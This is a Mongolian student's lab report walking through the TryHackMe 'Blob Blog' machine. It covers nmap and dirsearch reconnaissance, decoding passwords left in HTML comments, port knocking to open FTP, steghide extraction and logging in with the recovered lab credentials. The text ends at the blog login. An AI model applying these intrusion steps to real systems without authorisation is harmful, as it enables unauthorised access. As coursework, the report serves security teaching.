<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  The Blob Blog (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – The Blob Blog (MEDIUM)



---
# УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын The Blob Blog нэртэй Boot-to-Root машиныг нэвтрэлтийн тестийн аргачлалаар шинжилж, системд нэвтрэх боломжит эмзэг байдлуудыг илрүүлэн, хэрэглэгчийн эрхээс Root буюу администраторын хамгийн өндөр эрх хүртэл ахих ажиллагааг гүйцэтгэлээ.

Ажлын явцад Kali Linux үйлдлийн системийг халдлагын туршилтын орчин болгон ашиглаж, Nmap, FTP, Dirsearch, cURL, Netcat, Knock, Steghide, CyberChef болон Linux-ийн системийн командуудыг ашигласан. Эхний шатанд зорилтот системийн сүлжээний үйлчилгээ, нээлттэй болон шүүлтүүртэй портуудыг тодорхойлж, дараагийн шатанд вэб серверийн мэдээлэл, HTML source code болон нууц мэдээлэл агуулсан файлуудыг шинжилсэн.

Үүний дараа вэб хуудасны эх кодод илэрсэн мэдээллийг ашиглан нэвтрэх эрхийн мэдээллийг олж, `bobloblaw` хэрэглэгчийн эрхээр системд нэвтэрсэн. Эцэст нь системийн файл, директор болон програмын эрхийн тохиргоог судалж,  Root эрх авах ажиллагааг гүйцэтгэн даалгаврын зорилгыг биелүүлсэн.

#  АЖЛЫН ГҮЙЦЭТГЭЛ


##  FTP үйлчилгээний эмзэг байдлыг шалгах

Зорилтот системийн FTP үйлчилгээ нээлттэй эсэх, мөн нэргүй хэрэглэгчээр нэвтрэх боломж байгаа эсэхийг шалгахын тулд Nmap-ийн FTP Anonymous NSE скриптийг ашигласан.

```bash
sudo nmap -p21 --script ftp-anon 10.112.171.105
```

Энэ командын `-p21` параметр нь FTP үйлчилгээний стандарт 21-р портыг шалгаж, `--script ftp-anon` параметр нь Anonymous хэрэглэгчээр нэвтрэх боломжийг туршдаг.

Шалгалтын үр дүнд:

```text
PORT   STATE     SERVICE
21/tcp filtered  ftp
```

гэж гарсан. Энэ нь FTP порт нь `filtered` төлөвтэй байгааг илэрхийлнэ. Өөрөөр хэлбэл, тухайн порт руу чиглэсэн холболтыг сүлжээний шүүлтүүр эсвэл firewall хааж байгаа байж болох бөгөөд FTP үйлчилгээний бодит төлөвийг бүрэн тодорхойлох боломжгүй гэсэн үг юм.




Дараа нь FTP клиент ашиглан шууд холбогдохыг оролдсон.

```bash
ftp 10.112.171.105
```

Гэвч холболт хугацаа хэтэрсэн алдаагаар амжилтгүй болсон. Иймээс FTP үйлчилгээг ашиглан мэдээлэл авах боломжгүй гэж үзэж, дараагийн шатанд веб серверийн шинжилгээнд шилжсэн.

##  Nmap ашиглан порт болон үйлчилгээг илрүүлэх

Системийн үйлчилгээнүүдийг илүү өргөн хүрээнд шалгахын тулд бүх портыг хамарсан Nmap скан хийсэн.

```bash
sudo nmap -Pn -p- --min-rate 2000 10.112.171.105
```

Сканы үр дүнд зөвхөн `22/tcp` (SSH) болон `80/tcp` (HTTP) портууд нээлттэй байгааг харуулсан. Үүний дараа үйлчилгээний хувилбарыг тодорхойлохын тулд `-sC -sV` параметрүүдтэй скан хийсэн.

```bash
sudo nmap -sC -sV -p21,22,80,445,8080 10.112.171.105
```

Энэ сканаар 80-р порт дээр `Apache/2.4.7 (Ubuntu)` вэб сервер ажиллаж байгааг тогтоосон.


##  Вэб серверийн директор болон файлуудыг илрүүлэх



Зорилтот машинд HTTP үйлчилгээ ажиллаж байгаа тул веб серверийн нийтэд харагдахгүй директор болон файлуудыг илрүүлэх зорилгоор Dirsearch хэрэгслийг ашигласан.

```bash
dirsearch -u http://10.112.171.105
```

Шалгалтын үр дүнд дараах мэдээлэл илэрсэн.

```text
200 - 13KB - /index.html
403 - 295B - /server-status/
403 - 294B - /server-status
```

`/index.html` хуудас нь HTTP 200 төлөвтэй байсан нь веб хуудас хэвийн ажиллаж байгааг илэрхийлсэн. Харин `/server-status` зам нь HTTP 403 төлөвтэй байсан. Энэ нь сервер тухайн хүсэлтийг хүлээн авсан боловч хэрэглэгчид уг мэдээллийг үзэх зөвшөөрөл олгоогүй гэсэн үг юм.




Мөн `whatweb` хэрэгслээр сайтын технологийг шалгахад Ubuntu-ийн Apache-ийн анхдагч хуудас (Apache2 Ubuntu Default Page) ажиллаж байгааг харуулсан.



## HTML Source Code шинжлэх

Вэб хуудасны харагдах хэсэгт илрээгүй нэмэлт мэдээлэл байгаа эсэхийг шалгахын тулд браузерын View Page Source функцийг ашигласан.

```text
view-source:http://10.112.171.105/
```

HTML эх кодыг шалгах нь веб хөгжүүлэгчийн үлдээсэн тайлбар, нууц зам, тестийн мэдээлэл болон хэрэглэгчийн нэвтрэх мэдээлэл зэрэг нийтэд харагдах ёсгүй өгөгдөл алдагдсан эсэхийг илрүүлэхэд чухал ач холбогдолтой.



Шинжилгээний явцад HTML source code дотор кодчилсон текстэн мэдээлэл илэрсэн.



Мөн эх кодын төгсгөл хэсэгт Bob хэрэглэгчийн нууц үгтэй холбоотой тайлбар байгааг илрүүлсэн.

Тус тайлбарт:

```text
Dang it Bob, why do you always forget your password?
I'll encode for you here so nobody else can figure out what it is:
HcfPBJ54AKA4
```

гэсэн мэдээлэл байсан. Энэ нь веб хөгжүүлэгч нууц үгтэй холбоотой мэдээллийг HTML comment дотор үлдээсэн байгааг харуулсан.

##  Hash болон кодчилсон мэдээллийг шинжлэх

HTML source code-оос илрүүлсэн тэмдэгт мөрийг шууд нууц үг гэж үзэлгүйгээр нэмэлтээр шинжилсэн.

Эхлээд CyberChef ашиглан урт кодчилсон мөрийг Base64-ээс тайлж үзэхэд Brainfuck хэлний код (зурагт харагдаж буй `+` болон `-` тэмдэгтүүд) гарч ирсэн.


Уг Brainfuck кодыг dCode.fr хэрэгслээр тайлж үзэхэд "looks like you can do this" гэсэн утгатай текст гарсан.


Харин `HcfPBJ54AKA4` мөрийг CyberChef ашиглан Base58 кодчилолоос тайлахад `cUpC4k3s` гэсэн утга гарч ирсэн. Энэ нь Bob хэрэглэгчийн нууц үг болохыг тодорхойлсон.



##  FTP үйлчилгээ болон Port Knocking ажиллагааг судлах

Nmap-ийн анхны сканд 21-р порт хаалттай байсан тул Write-up-д заасан Port Knocking механизмыг ашиглах шаардлагатай болсон. Port Knocking гэдэг нь урьдчилан тогтоосон дарааллаар тодорхой портууд руу хүсэлт илгээх замаар хамгаалагдсан портыг нээх боломж олгодог сүлжээний хамгаалалтын механизм юм.



Дарааллаар нь 1, 3, 5 портууд руу `knock` команд илгээсэн:

```bash
knock 10.112.171.105 1
knock 10.112.171.105 3
knock 10.112.171.105 5
```

Үүний дараа дахин порт скан хийхэд (Rustscan ашиглан) 21-р порт нээгдсэн байсан.



FTP үйлчилгээ нээгдсний дараа `bob` хэрэглэгч болон дээр олсон `cUpC4k3s` нууц үгээр FTP-д амжилттай нэвтэрсэн.

```bash
ftp 10.112.171.105
```



`ftp` директор руу шилжиж, дотор нь байсан `cool.jpeg` зургийг татаж авсан.



## Нууц мэдээлэл олж авах

Татаж авсан `cool.jpeg` зургийг Steghide хэрэгслээр шинжлэхэд passphrase шаардсан. Өмнө нь олдсон `cUpC4k3s` нууц үгийг ашиглан extract хийхэд `out.txt` нэртэй файл гарч ирсэн.

```bash
steghide extract -sf cool.jpeg
cat out.txt
```

Гаралт:

```text
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
```


Энэ мэдээлэл нь Bob хэрэглэгчийн блогт нэвтрэхтэй холбоотой нууц мэдээлэл болон тусгай замын талаар чиглэл өгсөн.

Мөн 445 порт дээрх `/bobs_safe_for_stuff` хуудасны эх кодоос дараах тайлбарыг олсон:

```text
Remember this next time bob, you need it to get into the blog! I'm taking this down tomorrow, so write it down!
- youmayenter
```



## 4.9. Веб серверийн 8080 порт болон нэвтрэх хэсгийг шалгах

Сканы явцад 8080 порт дээр нэмэлт веб үйлчилгээ ажиллаж байгааг анзаарсан. Уг порт руу Dirsearch ажиллуулахад `/blog`, `/login`, `/review` зэрэг замууд илэрсэн.



`/login` хуудас руу орж үзэхэд хэрэглэгчийн нэр болон нууц үг шаардсан. Энд `bob` хэрэглэгчийн нэрийг оруулж, өмнө нь Steghide-ээр гаргаж авсан `p1fd3v3amT@55n0pr` (эсвэл out.txt дээрх мэдээллийг ашиглан) нууц үгийг оруулан нэвтэрсэн.

